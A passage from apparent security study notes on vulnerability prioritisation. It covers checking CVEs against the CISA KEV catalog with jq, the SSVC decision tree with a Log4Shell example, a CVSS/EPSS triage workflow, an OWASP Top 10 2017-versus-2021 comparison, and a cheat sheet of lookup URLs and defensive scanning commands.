SCANNER_CVES=("CVE-2021-44228" "CVE-2022-30190" "CVE-2021-34527")
for cve in "${SCANNER_CVES[@]}"; do
  result=$(jq --arg cve "$cve" '.vulnerabilities[] | select(.cveID == $cve)' /tmp/kev_catalog.json)
  if [ -n "$result" ]; then
    echo "ALERT: $cve is in CISA KEV catalog!"
    echo "$result" | jq '{cveID, vulnerabilityName, dueDate}'
  fi
done

# Get all KEV entries added in the last 30 days
jq --arg date "$(date -d '30 days ago' '+%Y-%m-%d')" \
  '.vulnerabilities[] | select(.dateAdded >= $date) | {cveID, dateAdded, vulnerabilityName}' \
  /tmp/kev_catalog.json
```

### 10.4 SSVC — Stakeholder-Specific Vulnerability Categorization

**SSVC** was developed jointly by CISA and Carnegie Mellon University's Software Engineering Institute (SEI) as a decision-tree-based alternative to numeric scoring. It produces discrete action recommendations tailored to specific stakeholders.

**Key differentiators from CVSS:**
- Produces actionable decisions (not scores) that vary by organizational role
- Accounts for the actual deployment and mission context
- Three tracks: Supplier, Deployer, Coordinator — each with different trees

**SSVC Deployer Decision Points:**

| Step | Decision Point | Options | Description |
|---|---|---|---|
| 1 | **Exploitation** | None / PoC / Active | Is there a PoC or active exploitation evidence? |
| 2 | **Automatable** | No / Yes | Can an attacker automate this exploit at scale (wormable)? |
| 3 | **Technical Impact** | Partial / Total | Does exploitation give partial or total control of the target? |
| 4 | **Mission Prevalence** | Minimal / Support / Essential | How central is the affected system to organizational mission? |
| 5 | **Public Well-being Impact** | Minimal / Material / Irreversible | Does exploitation affect public safety or have societal impact? |

**SSVC Deployer Outcomes:**

| Outcome | Meaning | Recommended Timeline |
|---|---|---|
| **Track** | Low urgency — monitor | Patch in next scheduled maintenance cycle |
| **Track*** | Routine urgency | Patch within 30 days |
| **Attend** | Elevated urgency | Patch within 1 week; assign dedicated owner |
| **Act** | Emergency urgency | Patch within 24–72 hours; incident response mode |

**Example SSVC assessment — Log4Shell:**

| Decision Point | Value | Reasoning |
|---|---|---|
| Exploitation | Active | Massively exploited within days of disclosure |
| Automatable | Yes | Fully automated exploit tools, scanners, worms |
| Technical Impact | Total | Unauthenticated RCE = total control |
| Mission Prevalence | Essential | Log4j in thousands of critical applications |
| Public Well-being | Material | Critical infrastructure affected globally |

**SSVC Outcome: ACT** — Patch within 24–72 hours (which aligns with historical response reality)

### 10.5 Complete Prioritization Decision Workflow

```
STEP 1: Obtain vulnerability list from scanner
         (Qualys, Tenable, Nessus, OpenVAS, etc.)
                    |
                    v
STEP 2: CHECK CISA KEV FIRST
         curl KEV catalog JSON
         Cross-reference all CVEs
         IF in KEV --> IMMEDIATE ACTION REQUIRED
                    |
                    v
STEP 3: Enrich with EPSS scores
         curl FIRST EPSS API
         Tag each CVE with exploitation probability
                    |
                    v
STEP 4: Apply combined CVSS + EPSS matrix
         Critical + EPSS > 0.1  --> Emergency (24h)
         Critical + EPSS < 0.1  --> High urgency (7 days)
         High + EPSS > 0.1      --> High urgency (7 days)
         High + EPSS < 0.1      --> Standard (30 days)
         Medium/Low             --> Normal cycle (60-90 days)
                    |
                    v
STEP 5: Apply SSVC decision tree for remaining
         High/Critical items to determine exact
         urgency level and assign owners
                    |
                    v
STEP 6: Asset criticality overlay
         Same CVE on external internet-facing asset = higher priority
         Same CVE on isolated dev server = lower priority
                    |
                    v
STEP 7: Output prioritized remediation backlog
         with assigned owners and due dates
```

---

## 11. CVSS Scoring Flow — Mermaid Diagram



---

## 12. OWASP Top 10: 2021 vs 2017 Comparison

| 2021 Rank | 2021 Name | Change | 2017 Rank | 2017 Name |
|---|---|---|---|---|
| **A01:2021** | Broken Access Control | Moved up 4 places | A05:2017 | Broken Access Control |
| **A02:2021** | Cryptographic Failures | Moved up 1; renamed | A03:2017 | Sensitive Data Exposure |
| **A03:2021** | Injection | Dropped from #1; XSS merged in | A01:2017 | Injection |
| **A04:2021** | Insecure Design | NEW category | — | (Not present) |
| **A05:2021** | Security Misconfiguration | Moved up 1 | A06:2017 | Security Misconfiguration |
| **A06:2021** | Vulnerable and Outdated Components | Moved up 3 | A09:2017 | Using Components with Known Vulnerabilities |
| **A07:2021** | Identification and Authentication Failures | Dropped 5; renamed | A02:2017 | Broken Authentication |
| **A08:2021** | Software and Data Integrity Failures | Expanded; Insec. Deserialization merged | A08:2017 | Insecure Deserialization |
| **A09:2021** | Security Logging and Monitoring Failures | Moved up 1 | A10:2017 | Insufficient Logging and Monitoring |
| **A10:2021** | Server-Side Request Forgery (SSRF) | NEW category | — | (Not present) |
| — | *(Merged into A03)* | Removed as standalone | A07:2017 | Cross-Site Scripting (XSS) |
| — | *(Removed from list)* | No longer standalone | A04:2017 | XML External Entities (XXE) |

### Key Changes Analysis

**New Additions (2021):**
- `A04 Insecure Design` — Recognizes that design flaws (not just coding bugs) are a major risk class; promotes threat modeling
- `A10 SSRF` — Reflects explosive growth of cloud architectures where SSRF can expose cloud metadata, IAM credentials, and internal services

**Significant Movements:**
- `Broken Access Control` jumped from #5 to #1 — most prevalent finding in DAST assessments (94% of apps)
- `Cryptographic Failures` moved up and was renamed from the symptom (Sensitive Data Exposure) to the cause (Cryptographic Failures)
- `Vulnerable Components` moved from #9 to #6 following the SolarWinds and Log4Shell incidents

**Consolidations:**
- `XSS` merged into Injection (A03) as it is fundamentally an injection attack targeting the browser
- `Insecure Deserialization` merged into `Software and Data Integrity Failures` (A08) with a broader supply chain focus
- `XXE` removed as a standalone category — attacks still exist but are captured under Injection and component scanning

### OWASP 2017 vs 2021 — Mapping for Reporting

| If you find... | Report as (2021) | Report as (2017) |
|---|---|---|
| SQL Injection | A03 Injection | A01 Injection |
| Stored XSS | A03 Injection | A07 XSS |
| Reflected XSS | A03 Injection | A07 XSS |
| IDOR | A01 Broken Access Control | A05 Broken Access Control |
| Missing TLS | A02 Cryptographic Failures | A03 Sensitive Data Exposure |
| Default Credentials | A05 Security Misconfiguration | A06 Security Misconfiguration |
| Outdated Library CVE | A06 Vulnerable Components | A09 Vulnerable Components |
| Insecure JWT | A07 Authentication Failures | A02 Broken Authentication |
| Java Deserialization | A08 Integrity Failures | A08 Insecure Deserialization |
| No Audit Logging | A09 Logging Failures | A10 Insufficient Logging |
| SSRF | A10 SSRF | (Not categorized) |
| XXE | A03 Injection | A04 XXE |
| Supply Chain Attack | A08 Integrity Failures | (Not categorized) |

---

## Quick Reference Cheat Sheet

### CVSS v3.1 Vector String Builder

```
CVSS:3.1/AV:[N/A/L/P]/AC:[L/H]/PR:[N/L/H]/UI:[N/R]/S:[U/C]/C:[N/L/H]/I:[N/L/H]/A:[N/L/H]
```

### Severity Score Thresholds

```
None      0.0
Low       0.1 ─────── 3.9
Medium    4.0 ─────────────── 6.9
High      7.0 ──────────────────── 8.9
Critical  9.0 ─────────────────────────── 10.0
```

### CVE Lookup Quick URLs

| Resource | URL Pattern |
|---|---|
| NVD | `https://nvd.nist.gov/vuln/detail/CVE-XXXX-XXXXX` |
| MITRE | `https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-XXXX-XXXXX` |
| Exploit-DB | `https://www.exploit-db.com/search?cve=XXXX-XXXXX` |
| GitHub | `https://github.com/advisories?query=CVE-XXXX-XXXXX` |
| CISA KEV | `https://www.cisa.gov/known-exploited-vulnerabilities-catalog` |
| EPSS API | `https://api.first.org/data/v1/epss?cve=CVE-XXXX-XXXXX` |

### Key Security Tools by Task

| Task | Tool | Command |
|---|---|---|
| CVSS Calculator | NVD Calculator | `https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator` |
| Python SCA | safety | `safety check -r requirements.txt` |
| Node.js SCA | npm audit | `npm audit --json` |
| Java SCA | dependency-check | `dependency-check.sh --scan /app` |
| Container scan | trivy | `trivy image nginx:latest` |
| TLS audit | testssl | `testssl.sh --full target.com` |
| EPSS enrichment | curl + jq | `curl "https://api.first.org/data/v1/epss?cve=CVE-..."` |
| KEV check | curl + jq | Parse CISA KEV JSON feed |

### OWASP Key Resources

| Resource | URL |
|---|---|
| OWASP Top 10 (2021) | `https://owasp.org/Top10/` |
| OWASP API Security Top 10 | `https://owasp.org/API-Security/` |
| OWASP Mobile Top 10 | `https://owasp.org/www-project-mobile-top-10/` |
| OWASP Testing Guide v4.2 | `https://owasp.org/www-project-web-security-testing-guide/` |
| OWASP ASVS | `https://owasp.org/www-project-application-security-verification-standard/` |
| OWASP Cheat Sheet Series | `https://cheatsheetseries.owasp.org/` |
| OWASP ZAP | `https://www.zaproxy.org/` |

---

*Document maintained as part of the Ethical Hacking VAPT Master Notes series.*  
*Always verify CVE data against official NVD and vendor sources before reporting or making patching decisions.*  
*Scores and severity ratings may change as new information about vulnerabilities becomes available.*
